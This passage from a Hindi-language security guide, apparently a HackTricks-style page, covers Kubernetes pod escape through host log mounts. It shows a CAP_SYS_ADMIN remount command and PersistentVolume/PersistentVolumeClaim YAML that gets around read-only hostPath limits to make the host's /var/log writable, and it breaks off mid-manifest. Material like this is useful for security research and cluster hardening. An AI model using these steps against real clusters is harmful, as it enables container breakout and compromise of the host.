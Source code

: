 ```bash
<a href="init">init</a>
<a href="lib">lib</a>
[...]
```
**एक प्रयोगशाला और स्वचालित शोध यहां मिल सकता है** [**https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts**](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)

#### readOnly सुरक्षा को छोड़ना <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

यदि आपको भाग्यशाली होने का सौभाग्य हो और उच्च प्रभावी क्षमता `CAP_SYS_ADMIN` उपलब्ध हो, तो आप सीधे फ़ोल्डर को rw के रूप में रीमाउंट कर सकते हैं:
```bash
mount -o rw,remount /hostlogs/
```
#### होस्टपैथ के readOnly सुरक्षा को अनदेखा करना <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

[**इस रिसर्च**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html) में कहा गया है कि सुरक्षा को अनदेखा करना संभव है:
```yaml
allowedHostPaths:
- pathPrefix: "/foo"
readOnly: true
```
यह पिछले तरीकों की तरह बचाव करने के लिए था, जहां होस्टपथ माउंट का उपयोग किया जाता है, इसके बजाय कंटेनर में एक होस्ट फ़ोल्डर को लिखने योग्य पहुँच के साथ माउंट करने के लिए PersistentVolume और PersistentVolumeClaim का उपयोग करें:
```yaml
apiVersion: v1
kind: PersistentVolume
metadata:
name: task-pv-volume-vol
labels:
type: local
spec:
storageClassName: manual
capacity:
storage: 10Gi
accessModes:
- ReadWriteOnce
hostPath:
path: "/var/log"
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
name: task-pv-claim-vol
spec:
storageClassName: manual
accessModes:
- ReadWriteOnce
resources:
requests:
storage: 3Gi
---
apiVersion: v1
kind: Pod
metadata:
name: task-pv-pod
spec:
volumes:
```
